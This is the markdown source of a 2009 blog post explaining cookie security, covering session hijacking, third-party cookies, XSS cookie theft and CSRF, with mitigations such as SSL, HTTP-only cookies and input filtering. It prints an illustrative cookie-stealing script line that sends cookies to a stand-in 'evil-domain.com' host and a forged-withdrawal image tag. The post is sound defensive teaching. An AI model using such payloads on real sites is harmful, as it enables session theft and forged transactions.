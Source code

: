 ```yaml
---
title: Cookies and security
author: Nicholas C. Zakas
permalink: /blog/2009/05/12/cookies-and-security/
categories:
  - Web Development
tags:
  - Cookies
  - HTTP
  - JavaScript
  - Security
  - Session Hijacking
  - Web Development
  - XSS
---
```

In my [last post][1], I discussed the basics of HTTP cookies and how they work. Missing from that discussion was the topic of security, mostly because it is a discussion in and of itself. Indeed, it's hard to talk about cookies without talking about security implications since there are so many. Cookies would seem to have all the security they need by virtue of the `domain`, `path`, and `secure` options, but the nature of web pages complicates the matter significantly.

## User logins and session hijacking

One of the most common uses for cookies is to track user login state. The mechanism is quite simple: you go to a page and sign in with a username and password. If the information is valid, a cookie is sent with the next response that uniquely identifies the user. Each page in the site checks for that cookie in order to establish login credentials. As long as the cookie remains intact, you are verified as the user who originally logged in. Most sites set these cookies as session cookies, to be deleted when the browser closes, as a security measure to prevent you from remaining logged in unintentionally. Many login forms also offer a &#8220;remember me&#8221; checkbox to change this to a persistent cookie at the user's request. Even then, most systems have a limit of one or two weeks to prevent runaway login credentials that may risk the security of the user.

The problem with this system is that it leaves a single data point for user identification. Further, cookies are sent in plain text over the Internet, making them vulnerable to [packet sniffing][2] whereby someone intercepts traffic between a computer and the Internet. Once the value of a user's login cookie is taken, it can be used to simulate the same session elsewhere by manually setting the cookie. The server can't tell the difference between the original cookie that was set and the duplicated one that was stolen through packet sniffing, so it acts as if the user had logged in. This type of attack is called [session hijacking][3].There are a few ways to prevent session hijacking using cookies.

The first, and most common technique among the security-conscious, is to only send cookies over SSL. Since SSL encrypts the request on the browser before transmitting across the Internet, packet sniffing alone can't be used to identify the cookie value. Banks and stores use this technique frequently since user sessions are typically short in duration.

Another technique is to generate a session key in some random fashion and/or a way that is based on information about the user (username, IP address, time of login, etc.). This makes it more difficult to reuse a session key, though doesn't make it impossible.

Yet another technique is to re-validate the user before performing an activity deemed to be of a higher security level, such as transferring money or completing a purchase. For example, many sites require you to log in a second time before changing a password.

## Third-party cookies

Web pages allow inclusion of resources from anyplace on the web. For example, my site uses the [YUI CSS][4] foundation for its layout and therefore includes these files from the Yahoo! CDN at `yui.yahooapis.com` via a `<link>` tag. Due to cookie restrictions, the request to retrieve this CSS resource will not include the cookies for `nczonline.net`. However, `yui.yahooapis.com` could potentially return its own cookies with the response (it doesn't, it's a cookie-less server). The page at `nczonline.net` cannot access cookies that were sent by `yui.yahooapis.com` because the domain is different and vice-versa, but all the cookies still exist. In this case, `yui.yahooapis.com` would be setting a third-party cookie, which is a cookie tied to a domain separate from the containing page.

There are several ways to include resources from other domains in HTML:

  * Using a `<link>` tag to include a style sheet.
  * Using a `<script>` tag to include a JavaScript file.
  * Using an `<object>` or <embed> tag to include media files.
  * Using an `<iframe>` tag to include another HTML file.

In each case, an external file is referenced and can therefore return its own cookies. The interesting part is that with the request, these third-party servers receive an HTTP `Referer` heading (spelling is incorrect in the spec) indicating the page that is requesting the resource. The server could potentially use that information to issue a specific cookie identifying the referring page. If that same resource is then loaded from another page, the cookie would then be sent along with the request and the server can determine that someone who visited Site A also visited Site B. This is a common practice in online advertising. Such cookies are often called tracking cookies since their job is to track user movement from site to site. This isn't actually a security threat but is an important concept to understand in the larger security discussion.

### Cookie stealing and XSS

The ability to load JavaScript from a different domain onto the page opens up a particularly troublesome security hole. Even though the request for a third-party JavaScript resource doesn't include the containing page's cookies, the script can get access to them. All JavaScript on a page is considered to be running in the same domain, with the same path, and using the same protocol as the page itself. That means a script from loaded another domain will get that page's cookies by reading `document.cookie`.

As an example of how dangerous this is, suppose I load a script from `evil-domain.com` that contains some actually useful code. However, the folks at `evil-domain.com` then switch that code to the following:

    (new Image()).src = "http://www.evil-domain.com/cookiestealer.php?cookie=" + cookie.domain;

Now this code is loaded on my page and silently sends my cookies back to `evil-domain.com`. This happens to everyone who visits my site. Once they have my cookies, it's much easier to perpetrate other attacks including session hijacking. When an attack occurs due to injection of third-party JavaScript into a page, it's called a [cross-site scripting][5] (XSS) attack.

Cookie stealing doesn't occur just from including a malicious script on your page accidentally, it can also occur due to poor input filtering. A [simple example][6] of this is a page where the user can enter text that is output, as-is, into the page. If the text contains a `<script>` tag with the same code as above then cookies can once again be stolen.

XSS attacks like this have been perpetrated against large sites such as LiveJournal and [MySpace][7] in the past. The best protection comes in two forms:

  1. Don't include JavaScript from untrusted domains. The CDNs of large companies such as Yahoo!, Google, and AOL should be safe; use extreme caution when including from other locations.
  2. Filter out HTML from all user input or otherwise sanitize the input. Never accept user input and output onto a page without some sort of filtering.

This is precisely why HTTP-only cookies are an important addition to standard cookie implementations. If a cookie were marked as HTTP-only, then a malicious script wouldn't be able to access that cookie via document.cookie and therefore wouldn't be able to steal your cookies. When HTTP-only cookies are officially supported in all browsers, it will become a valid third option. Right now, it's a nice mitigation technique but not a preventative one.

### Cross-site request forgery (CSRF)

Another type of attack involving cookies is [cross-site request forgery][8] (CSRF). In this type of attack, the attacker is able to convince the browser to send a request on behalf of a logged-in user to do something malicious, such as transfer money into the attacker's bank account. This can be done using the same XSS techniques discussed earlier or by using simple HTML.

Wikipedia gives a good example of someone posting a message on a forum where there is no input filtering. A user can therefore include an image that isn't really an image, it's a request to your bank's server to withdraw money, such as:

    <img src="http://bank.example/withdraw?account=bob&amount=1000000&for=mallory">

If you were logged in to bank.example, meaning your cookies were still valid, then the request would be sent as soon as you viewed the forum message. The bank would validate the request because the proper cookies were sent even though you didn't initiate the request through some action.

As with XSS, input filtering is an important tool in prevent CSRF attacks. There are a few others as well:

  * Require confirmation for any sensitive action. In this example, the page at bank.example should not initiate the withdrawal. Instead, it should display a confirmation page that requires you to validate the action being requested. The validation may include another login screen for extra security.
  * Cookies that validate users in systems with sensitive data should have a short expiration time. In some cases, an expiration period of a few minutes may be necessary.
  * Require validation not just with cookies, but also by referrer and/or request type (POST instead of GET).

CSRF attacks can be particularly tricky to track down once initiated, so prevention is key.

## Conclusion

With all of the security issues surrounding cookies, is it safe to use them? The answer is yes so long as you take the proper precautions to protect your users and systems from XSS and CSRF attacks. Input validation alone decreases the number of attacks that can be executed on your site, and it's a very low-cost addition that pays off in big ways. There are a lot of big companies that rely on cookies for identifying their users and do so in a safe way. The most important thing you can do when using cookies is to stay informed about security issues and the latest techniques for preventing attacks.

 [1]: https://humanwhocodes.com/blog/2009/05/05/http-cookies-explained/
 [2]: http://en.wikipedia.org/wiki/Packet_sniffing
 [3]: http://en.wikipedia.org/wiki/Session_hijacking
 [4]: http://developer.yahoo.com/yui/3/cssbase/
 [5]: http://en.wikipedia.org/wiki/Cross-site_scripting
 [6]: http://www.steve.org.uk/Hacks/XSS/simple.html
 [7]: http://namb.la/popular/tech.html
 [8]: http://en.wikipedia.org/wiki/Cross-site_request_forgery
